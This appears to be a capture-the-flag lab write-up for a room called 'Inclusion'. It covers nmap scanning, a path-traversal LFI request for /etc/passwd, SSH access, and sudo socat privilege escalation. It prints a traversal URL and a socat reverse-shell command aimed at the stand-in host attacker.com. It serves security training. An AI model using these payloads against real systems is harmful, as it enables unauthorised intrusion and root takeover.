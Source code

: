# Inclusion

## Reconnaissance

IP addr 10.10.222.127

## Scanning & Enumeration

* Launch Nmap scan
  
```shell
nmap -A -T4 -oA nmap/all_port 10.10.222.127

```

* LFI Testing
try to exploit LFI
<http://10.10.222.127/article?name=lfiattack>
try include /etc/passwd
<http://10.10.222.127/article?name=../../../../../../etc/passwd>
![inclusion](img/inclusion.png)

## Exploitation

* get a ssh shell with our finding
  ![ssh shell](img/get_shell.png)

* Privilege escalation
  
try sudo -l attack vector

![sudo -l](img/root-vecor.png)

  exploit it to escalate priv [GTFObin](https://gtfobins.github.io/gtfobins/socat/#sudo)

  ```shell
RHOST=attacker.com
RPORT=12345
sudo -E socat tcp-connect:$RHOST:$RPORT exec:sh,pty,stderr,setsid,sigint,sane
  ```

get the root shell

![root](img/root.png)